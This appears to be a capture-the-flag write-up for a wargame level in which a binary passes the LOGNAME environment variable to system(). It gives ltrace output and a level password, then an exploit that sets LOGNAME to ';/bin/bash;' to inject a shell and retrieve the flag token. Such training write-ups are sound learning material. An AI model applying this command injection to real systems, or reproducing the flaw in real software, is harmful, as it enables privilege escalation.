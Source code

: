 ```bash
$ su level07 -> wiok45aaoguiboiki2tuin6ub
```

### Vulnerability Assessment

```bash
$ ./level07
level07
```

```bash
$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff774, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                             = 2007
geteuid()                                                                             = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                   = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                   = 0
getenv("LOGNAME")                                                                     = "level07"
asprintf(0xbffff6c4, 0x8048688, 0xbfffff46, 0xb7e5ee55, 0xb7fed280)                   = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                = 0
+++ exited (status 0) +++
```

Upon examining the behavior of `level07` using `ltrace`, it is observed that the program performs several operations:

- Sets its real, effective, and saved user and group IDs to those of the executing user (`setresuid` and `setresgid`), ensuring it runs with the privileges of its owner.
- Retrieves the value of the `LOGNAME` environment variable using `getenv("LOGNAME")`.
- Executes a command that includes the value of `LOGNAME` in a call to `system`.

This sequence of actions indicates that `level07` is potentially vulnerable to command injection via the `LOGNAME` environment variable.

### Exploit

The exploit hinges on manipulating the `LOGNAME` environment variable. Since `level07` includes the value of `LOGNAME` in a `system` call, changing `LOGNAME` to a command string could lead to its execution.

The steps for the exploit are as follows:

1. Modify the `LOGNAME` environment variable to a command, such as `;/bin/bash;`.
2. Execute `level07`.

By setting `LOGNAME` to a command string, the `system` call within `level07` executes this command. This exploit is demonstrated below:

```bash
$ export LOGNAME=';/bin/bash;'
$ ./level07

```

Upon execution, `level07` runs the `/bin/bash` command, providing a shell with the privileges of the `level07` program. Within this shell, running `getflag` retrieves the token:

```bash
flag07 $ getflag
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```